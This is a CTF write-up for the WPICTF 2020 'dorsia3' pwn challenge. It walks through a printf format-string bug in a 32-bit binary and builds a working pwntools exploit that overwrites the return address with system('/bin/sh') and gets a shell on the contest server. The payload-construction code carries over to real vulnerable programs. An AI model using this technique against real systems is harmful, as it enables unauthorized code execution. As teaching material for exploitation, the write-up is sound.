


# WPICTF 2020

## dorsia3

> 250
> 
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The third card.
>
> `nc dorsia3.wpictf.xyz 31337 or 31338 or 31339`
>
> made by: awg
> 
> [nanoprint](nanoprint) [libc.so.6](libc.so.6)

Tags: _pwn_


### Introduction

This is more of a walkthrough that a writeup, if bored, then click [exploit.py](exploit.py).


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


#### Roll the film ([dorsia.webm](../dorsia.webm)), _again_



This time the verbal hint is _format vuln_, _printf_.

Wow, another legit fuckup.  You could (and can) actually expect someone to swap the format string and parameter.  And, _that_, is the vulnerability.

We get one shot at this.  Leaked from the first `printf` is an address in the stack, as well as a location from libc.  With this in hand it should be easy to overwrite the return address.  The 2nd `printf` is where we launch the exploit.  We have 68 characters to work with (not really--see below).

> There are two solutions that I came up for this.  The first was to call `system` with an argument of `/bin/sh`, and the second was to, again, use `one_gadget`.  The former is portable and more interesting, so I'll describe that.

All the information needed (stack and libc addresses) is given, so all that is left is to figure out how `a` is positioned in the stack so that we can compute our parameters for the exploit.  To do this, just startup the binary in GDB, set a breakpoint (`b *main+87`) just before the last `printf`, and run.

In this example the output sent from the first `printf` was `0xffffd62b0xf7e110e0`; IOW the address of `a` is `0xffffd62b` and the address of `system - 288` is `0xf7e110e0`.

Now send the following to `fgets`:

```
ABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

> I intentionally only sent one `A`

Stack just before second `printf`:

```
0xffffd610│+0x0000: 0xffffd62b  →  "ABBBBCCCC[...]"	 ← $esp
0xffffd614│+0x0004: 0x5655700e  →  0x000a7325 ("%s"?)
0xffffd618│+0x0008: 0xf7fac5c0  →  0xfbad2288
0xffffd61c│+0x000c: 0x000000c2
0xffffd620│+0x0010: 0x00000000
0xffffd624│+0x0014: 0x00c30000
0xffffd628│+0x0018: 0x41000000 (???"A")
0xffffd62c│+0x001c: "BBBB"
0xffffd630│+0x0020: "CCCC"
0xffffd634│+0x0024: "DDDD"
0xffffd638│+0x0028: "EEEE"
0xffffd63c│+0x002c: "FFFF"
0xffffd640│+0x0030: "GGGG"
0xffffd644│+0x0034: "HHHH"
0xffffd648│+0x0038: "IIII"
0xffffd64c│+0x003c: "JJJJ"
0xffffd650│+0x0040: "KKKK"
0xffffd654│+0x0044: "LLLL"
0xffffd658│+0x0048: "MMMM"
0xffffd65c│+0x004c: "NNNN"
0xffffd660│+0x0050: "OOOO"
0xffffd664│+0x0054: "PPPP"
0xffffd668│+0x0058: "QQQQ"
0xffffd66c│+0x005c: 0x00525252 ("RRR"?)
0xffffd670│+0x0060: 0x00000001
0xffffd674│+0x0064: 0xffffd734  →  0xffffd847  →  "/pwd/datajerk/wpictf2020/dorsia3/nanoprint"
0xffffd678│+0x0068: 0xffffd73c  →  0xffffd872  →  "LESSOPEN=| /usr/bin/lesspipe %s"
0xffffd67c│+0x006c: 0xffffd6a0  →  0x00000001
0xffffd680│+0x0070: 0x00000000
0xffffd684│+0x0074: 0xf7fac000  →  0x001d7d6c ("l}"?)
0xffffd688│+0x0078: 0x00000000	 ← $ebp
0xffffd68c│+0x007c: 0xf7dece81  →  <__libc_start_main+241> add esp, 0x10
0xffffd690│+0x0080: 0xf7fac000  →  0x001d7d6c ("l}"?)
0xffffd694│+0x0084: 0xf7fac000  →  0x001d7d6c ("l}"?)
0xffffd698│+0x0088: 0x00000000
0xffffd69c│+0x008c: 0xf7dece81  →  <__libc_start_main+241> add esp, 0x10
0xffffd6a0│+0x0090: 0x00000001
0xffffd6a4│+0x0094: 0xffffd734  →  0xffffd847  →  "/pwd/datajerk/wpictf2020/dorsia3/nanoprint"
```

There a few important observations to be made:

* First, in the code above, `a` allocates `69` bytes.  This will not align with the stack.  (_This is why I used just the one `A` so that the rest would align for illustration purposes._)  At line `+0x0018` (`0xffffd62b`--remember this was given to us) is the start of the character array.
* Second, `fgets` size parameter is also `69`.  `fgets` will read only 68 characters of input, and then set the 69th byte to `0x00`.  Look at `+005c`, notice how only 3 `R`s were read.
* Third, why is the base pointer so far down stack (`+0x0078`)?  For only `a[69]`, we should expect it to be closer to `a`.

The first two points tell us that we really only have 65 characters to work with for a format string exploit.  The end of the string usually contains addresses, and since addresses can have nulls, they should be at the end.  Also the addresses have to be stack aligned.  And, since the last character will be NULL, we cannot use the last stack line as part of the format string exploit.

The third point requires a bit of snooping.

#### Decompile in Ghidra:



Bryce's card **is a lie!**  What a douche.

"`a`" (`local_65`) is actually allocated for `81` bytes.  Now that does not change any of the facts above, `fgets` is still limited to `68` characters (plus the free NULL) and the stack alignment still off by a byte.  However, this does explain why `$ebp` and the return address (to `__libc_start_main_241`) are so far down stack.

From the disassembly:

```
0001107f 8d 75 a3        LEA        ESI=>local_65,[EBP + -0x5d]
```

"`a`" (`local_65`) is `0x5d` (93) bytes above `EBP`, so our return address target will be _address of `a`_ (provided by the initial output) + `0x5d` + `4` (`EBP`), _or is it?_

If you look again at the stack above, there's two identical (`<__libc_start_main+241> add esp, 0x10`) return addresses.  Looking at the end of `main` disassembly:

```
000110cc 83 c4 10        ADD        ESP,0x10
000110cf 8d 65 f4        LEA        ESP=>local_14,[EBP + -0xc]
000110d2 59              POP        ECX
000110d3 5b              POP        EBX
000110d4 5e              POP        ESI
000110d5 5d              POP        EBP
000110d6 8d 61 fc        LEA        ESP,[ECX + -0x4]
000110d9 c3              RET
```

`0x10` is added to the stack pointer shifting down the real return address 16 (`0x10`) more bytes.  So, our target address will be _address of `a`_ + `0x5c` + `4`+ `0x10`.


### Exploit

#### Attack Plan

1. Leak address of `a` and `system`
2. Compute location of libc and the string `/bin/sh` in libc
3. Overwrite return address with `system` + arg `/bin/sh`
4. Get a shell, get the flag


#### Leak address of `a` and `system`

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./nanoprint')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('dorsia3.wpictf.xyz',31337)
libc = ELF('libc.so.6')

_ = p.recvline().strip()

a =  int(_[:10],16)
system = int(_[10:],16) + 288
```

This picks up the output from `printf("%p%p\n",a,system-288);`.  The conversion specifier `%p` just prints the address of the parameter.  Handy for leaking addresses.

> The above code assumes none of the address start with `0x0`, but start with `0x[1-f]`; if the address started with `0x0` the string would be shorter and these hardcoded slices would fail (i.e., the second `0` and any following are not displayed).  In this case it was not a problem.


#### Compute location of libc and the string `/bin/sh` in libc

```python
return_address = a + 0x5d + 4 + 0x10
baselibc = system - libc.symbols['system']
binsh = baselibc + next(libc.search(b"/bin/sh"))
```

Setting the `return_address` as described in the _Analysis_ section above.

Using the location of `system`, the base of libc can be computed, as well as a pointer to the string `/bin/sh`. 


#### Overwrite return address with `system` + arg `/bin/sh`

If you're not familiar with format string exploits, please pause and read: [https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf).  I think this was the first Google hit.

The abridged version is that `printf` has a format string conversion specifier `%n`, that will write to an address passed as a parameter, the number of characters emitted for that `printf` call.  E.g. `printf("123%n",&char_count)` will store the number `3` in the integer `char_count` since  `3` characters were emitted _before_ the `%n` (the `%n` _emits nothing_ :-).

We have to write out some 32-bit addresses (this an x86 challenge).  Printing `2^32` characters will take a very long time, fortunately `%n` supports modifiers; `h` can be used to specify the target address as a 16-bit `short`.  This means we can emit at most `2^16` characters, however we'll need two `%n` conversion specifiers and two address to write to.

```python
words = {}
words[system & 0xFFFF] = return_address
words[system >> 16]    = return_address + 2
words[binsh & 0xFFFF]  = return_address + 8
words[binsh >> 16]     = return_address + 10
```

The exploit is to write the address of the `system` call into the return address on the stack.  And then to write a pointer to a string (`/bin/sh`) as an argument to `system` (also on the stack).  The location of the first argument to `system` will be 8 bytes below in the stack, since 4 bytes below is where `system` expects to pop off the `ret` address.

Above, in the associative array (dictionary) `words`, is the high and low order bytes of the addresses of `system` and `/bin/sh` computed from the previous step.  The `words` index (e.g. `system & 0xFFFF`) is the value to be written to the assigned value (e.g. `return_address`).

This array is sorted by the index so that the next emit character count is greater than the first.  If this is not done correctly it is possible the 2nd, 3rd, or 4th values to be written to the stack cannot be computed because they are smaller than the accumulated `printf` internal character count.

```python
n=0; q=19; c=0; payload = b''
for i in sorted(words):
	payload += b'%' + str(i-n).encode() + b'x'
	payload += b'%' + str(q).rjust(2,'0').encode() + b'$hn'
	c += len(str(i-n)) + 2
	n += (i-n)
	q += 1

assert(c <= 25)
payload += b' '*(25-c)

for i in sorted(words):
	payload += p32(words[i])
```	

From the _Analysis_ section we determined there can only be a max of 65 characters used.  From that subtract off 16 for the 4 8-byte addresses at the end.  That leaves 49.  There are 4 `%XX$hn` conversion specifiers taking up a total of 24 bytes, leaving 25 bytes to specify the `%YYYYx` conversions to emit `YYYY` number of spaces.  The `assert` above will check that we didn't blow out our budget, and the following append to the `payload` fills in spaces so that all the addresses following that are aligned on the stack.

At this point it may help to look at the actually computed format string that is exactly 65 bytes long:

```python
b'%16896x%19$hn%3791x%20$hn%40627x%21$hn%20x%22$hn \xccu\x80\xff\xd4u\x80\xff\xceu\x80\xff\xd6u\x80\xff'
```

From left to right:

* emit `%16896x` spaces and write (`16896` = `0x4200`) to the address `\xccu\x80\xff` at parameter 19 (`%19$hn`)
* emit `%3791x` spaces and write (`16896` + `3791` = `0x50cf`) to the address `\xd4u\x80\xff` at parameter 20 (`%20$hn`)
* emit `%40627x` spaces and write (`16896` + `3791` + `40627` = `0xef82`) to the address `\xceu\x80\xff` at parameter 21 (`%21$hn`)
* emit `%20x` spaces and write (`16896` + `3791` + `40627 + 20` = `0xef96`) to the address `\xd6u\x80\xff` at parameter 22 (`%22$hn`)
* emit a space, this was just added by the algorithm above to pad out as describe above.
* emit the four address referenced by `%XX$hn`.

> This example above will change every time run because of ASLR.
>
> Notice how the value written increases, per the aforementioned explanation. 

The `%XX$hn` enumeration starts at 19.  _Why?_.

Parameters to (x86 32-bit) `printf` are all on the stack and usually (in my experience) start from the address below the stack pointer and go down.  Also (in my experience) the start of the format string is at parameter 6 (same with x86_64).  So starting from the `0xffffd628│+0x0018: 0x41000000 (???"A")` line in the stack diagram above and counting down to `NNNN`, `OOOO`, `PPPP`, `QQQQ` (the location of the last 4 stack aligned parameters) we end up at 19 (`NNNN`).  You can use math if you like, e.g.:

```python
import math
math.ceil(65 / 4) + 6 - 4
```

Basically for x86 (4 byte stack), the number of characters that can be used for your exploit, devided by 4 bytes/stack line + parameter 6 for the start of the format string, less the number of pointers you have to write to the end.  In this example the value is `19`.


#### Get a shell, get the flag

All the is left to do is send the payload:

```python
p.sendline(payload)
p.interactive()
```


#### Output

```

... a screen full of all them sweet sweet spaces emitted -- you asked for it ...

1            e8fc8d57 \xfc\xb7\xc5\xff\xb8\xc5\xff\xfe\xb7\xc5\xff\x06\xc5\xff
$ cat flag.txt
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```


#### Flag

```
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```
